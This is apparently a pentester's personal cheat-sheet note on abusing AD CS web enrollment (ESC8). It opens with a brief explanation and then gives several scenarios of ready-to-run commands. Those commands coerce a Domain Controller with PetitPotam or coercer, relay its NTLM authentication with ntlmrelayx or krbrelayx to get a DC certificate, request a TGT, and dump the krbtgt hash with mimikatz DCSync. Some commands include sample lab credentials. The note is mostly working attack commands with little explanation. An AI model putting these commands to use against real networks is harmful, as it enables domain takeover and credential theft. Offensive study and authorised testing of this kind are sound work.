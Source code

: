 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# General Overview: 
AD CS supports several HTTP-based enrollment methods if additional server roles are installed (Certificate enrollment web service). There are three methods that can test to abuse this technique.

An attacker can use PetitPotam to force a Domain Controller to relay its NTLM credentials to a target host. These credentials can then be forwarded to the Active Directory Certificate Services (AD CS) Web Enrollment pages, allowing the attacker to enroll for a Domain Controller certificate. This certificate can be used to request a Ticket Granting Ticket (TGT), enabling a Pass-the-Ticket attack that compromises the entire domain.

# # Abusing ESC8 Certificate Templates

## Scenario 1 (Certipy, NTLMrelayx, PetitPotman):
- certipy-ad relay -ca 172.21.1.1
- impacket-ntlmrelayx -t http://megacorpone.com/certsrv/csertfnsh.asp -smb2support --adcs --template 'Domain Controller'
- python3 PetitPotam -d megacorpone.com -u afsimmons -p Spawn123! 172.21.1.5 MEGACORP
## Scenario 2: 
- impacket-ntlmrelayx -t http://megacorpone.com/certsrv/csertfnsh.asp -smb2support --adcs --template 'Domain Controller'
- mimikatz> misc::efs /server:dc.lab.local /connect:172.21.1.5 /noauth
-  kekeo> base64 /input:on
- kekeo> tgt::ask /pfx:"BASE64-CERT-FROM-NTLMRELAY" /user:dc$ /domain:megacorpone.com /ptt
- mimikatz> lsadump::dcsync /user:krbtgt
## Scenario 4:
- sudo krbrelayx.py --target http://CA/certsrv -ip attacker_IP --victim target.domain.local --adcs --template Machine
- sudo mitm6 --domain domain.local --host-allowlist target.domain.local --relay CA.domain.local -v
## Scenario 5:
- Source: https://github.com/bats3c/ADCSPwn
- adcspwn.exe --adcs "cs server" --port [local port] --remote [computer]
- adcspwn.exe --adcs cs.megacorpone.com
- adcspwn.exe --adcs cs.megacorpone.com--remote dc.megacorpone.com--port 9001
- adcspwn.exe --adcs cs.megacorpone.com--remote dc.megacorpone.com --output C:\Temp\cert_b64.txt
- adcspwn.exe --adcs cs.megacorpone.com--remote dc.megacorpone.com--username megacorpone.com\afsimmons --password Spawn123! --dc dc.megacorpone.com
## Scenario 6: 
 - impacket-ntlmrelayx -t http://megacorpone.com/certsrv/csertfnsh.asp -smb2support --adcs --template 'Domain Controller'
 - python3 coercer.py <DC_IP> <YOUR_IP>
 - python3 getTGT.py -dc-ip <DC_IP> -pfx <CERT_FILE.pfx> -no-pass


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
